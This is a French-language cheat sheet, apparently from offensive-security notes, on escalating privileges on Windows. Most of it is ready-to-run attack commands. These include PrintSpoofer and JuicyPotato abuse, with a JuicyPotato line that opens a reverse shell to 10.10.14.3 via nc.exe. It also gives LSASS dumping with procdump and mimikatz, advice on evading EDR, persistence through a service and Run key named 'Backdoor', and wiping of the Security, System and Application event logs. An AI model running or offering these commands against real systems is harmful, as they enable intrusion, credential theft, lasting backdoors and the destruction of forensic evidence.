

## Windows Privilege Escalation

La montée en privilèges sur Windows repose sur l'exploitation de privilèges, de jetons (tokens) ou de configurations système mal sécurisées.

### Flux d'attaque : Élévation via SeImpersonate



### Lister les privilèges

```bash
whoami /priv
whoami /groups
```

### Privilèges critiques

| Nom du privilège | Exploitation possible |
| :--- | :--- |
| `SeImpersonatePrivilege` | **JuicyPotato**, **PrintSpoofer**, **RoguePotato**, **GodPotato** |
| `SeAssignPrimaryTokenPrivilege` | `CreateProcessAsUser` |
| `SeBackupPrivilege` | Lecture fichiers protégés (SAM, SYSTEM) |
| `SeRestorePrivilege` | Écriture fichiers protégés |
| `SeDebugPrivilege` | Injection de code / Dump LSASS |
| `SeLoadDriverPrivilege` | Chargement de pilotes malveillants |
| `SeTakeOwnershipPrivilege` | Modification ACLs |
| `SeCreateTokenPrivilege` | Création de tokens arbitraires |
| `SeTcbPrivilege` | S4U (Service for User) |

### Groupes critiques

| Groupe local / AD | Impact |
| :--- | :--- |
| `Administrators` | Contrôle total |
| `Backup Operators` | Accès fichiers sans ACL |
| `Print Operators` | Injection de drivers |
| `Remote Desktop Users` | Accès RDP |
| `Hyper-V Administrators` | Accès aux VMs |
| `Server Operators` | Gestion services |
| `DNS Admins` | Injection DLL service DNS |

### Reconnaissance locale

```bash
net user
net localgroup Administrators
net accounts
netstat -ano
tasklist /FI "PID eq <PID>"
query user
echo %SESSIONNAME%
```

### Analyse des privilèges via outils automatisés (BloodHound/SharpHound)

L'énumération manuelle est complétée par l'analyse des chemins d'attaque dans **Active Directory Enumeration**. **SharpHound** permet de collecter les données nécessaires pour identifier les privilèges délégués ou les relations de confiance.

```bash
# Collecte des données depuis la machine compromise
.\SharpHound.exe -c All --zip

# Analyse des chemins d'escalade dans BloodHound
# Rechercher les nœuds avec "CanPSRemote" ou "AdminTo"
```

### Détection UAC

```bash
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v EnableLUA
whoami /groups | findstr "High Mandatory"
```

### Exploitation SeImpersonate

> [!warning]
> **JuicyPotato** est obsolète sur Windows Server 2019+ (utiliser **PrintSpoofer** ou **GodPotato**).

```bash
# PrintSpoofer
PrintSpoofer.exe -i -c "cmd.exe"

# JuicyPotato
JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\tools\nc.exe 10.10.14.3 8443 -e cmd.exe" -t *
```

### Exploitation SeDebugPrivilege

> [!danger]
> Le dump de **LSASS** déclenche quasi systématiquement les alertes EDR/AV.

```powershell
# Dump LSASS
procdump.exe -accepteula -ma lsass.exe lsass.dmp

# Analyse avec Mimikatz
mimikatz # sekurlsa::minidump lsass.dmp
mimikatz # sekurlsa::logonpasswords
```

### Techniques de bypass d'EDR/AV lors de l'injection de tokens

Lors de la manipulation de **Token Manipulation**, les EDR surveillent les appels API `OpenProcess` et `CreateRemoteThread`. L'utilisation de techniques de "Direct Syscalls" ou d'injection dans des processus légitimes (ex: `explorer.exe`) est recommandée.

```powershell
# Exemple d'usurpation de token via PowerShell (Invoke-TokenManipulation)
Invoke-TokenManipulation -ImpersonateUser -Username "NT AUTHORITY\SYSTEM"
```

### Exploitation SeTakeOwnership

> [!warning]
> La modification des ACLs avec **SeTakeOwnershipPrivilege** peut corrompre le fonctionnement des services système.

```powershell
# Prendre possession
takeown /f "C:\chemin\vers\fichier"

# Modifier ACL
icacls "C:\chemin\vers\fichier" /grant user:F
```

### Stratégies de persistance via privilèges élevés

Une fois les privilèges élevés obtenus, la persistance est assurée via la modification de services ou l'ajout de clés de registre.

```bash
# Création d'un service persistant
sc create Backdoor binPath= "C:\temp\shell.exe" start= auto
sc start Backdoor

# Clé de registre Run
reg add "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" /v Backdoor /t REG_SZ /d "C:\temp\shell.exe"
```

### Activation de privilèges via PowerShell

```powershell
# Exemple pour SeDebugPrivilege
$definition = @"
using System;
using System.Runtime.InteropServices;
public class AdjPriv {
    [DllImport("advapi32.dll", ExactSpelling = true, SetLastError = true)]
    public static extern bool OpenProcessToken(IntPtr h, int acc, ref IntPtr phtok);
    [DllImport("advapi32.dll", SetLastError = true)]
    public static extern bool LookupPrivilegeValue(string host, string name, ref long pluid);
    [DllImport("advapi32.dll", ExactSpelling = true, SetLastError = true)]
    public static extern bool AdjustTokenPrivileges(IntPtr htok, bool disall, ref TokPriv1Luid newst, int len, IntPtr prev, IntPtr relen);
    public const int SE_PRIVILEGE_ENABLED = 0x00000002;
    public const int TOKEN_QUERY = 0x00000008;
    public const int TOKEN_ADJUST_PRIVILEGES = 0x00000020;
    [StructLayout(LayoutKind.Sequential, Pack = 1)]
    public struct TokPriv1Luid {
        public int Count;
        public long Luid;
        public int Attr;
    }
    public static bool EnablePrivilege(string priv) {
        bool retVal;
        TokPriv1Luid tp;
        IntPtr htok = IntPtr.Zero;
        retVal = OpenProcessToken(System.Diagnostics.Process.GetCurrentProcess().Handle, TOKEN_ADJUST_PRIVILEGES | TOKEN_QUERY, ref htok);
        tp.Count = 1;
        tp.Luid = 0;
        tp.Attr = SE_PRIVILEGE_ENABLED;
        retVal = LookupPrivilegeValue(null, priv, ref tp.Luid);
        retVal = AdjustTokenPrivileges(htok, false, ref tp, 0, IntPtr.Zero, IntPtr.Zero);
        return retVal;
    }
}
"@
Add-Type $definition
[AdjPriv]::EnablePrivilege("SeDebugPrivilege")
```

> [!tip]
> Toujours vérifier l'état (Enabled/Disabled) du privilège avant exploitation avec `whoami /priv`.

### Nettoyage des traces (Event Logs, fichiers temporaires)

Le nettoyage est crucial pour éviter la détection post-incident.

```powershell
# Suppression des logs d'événements
wevtutil cl System
wevtutil cl Security
wevtutil cl Application

# Suppression des fichiers temporaires et outils
del /f /q C:\temp\PrintSpoofer.exe
del /f /q C:\temp\lsass.dmp
```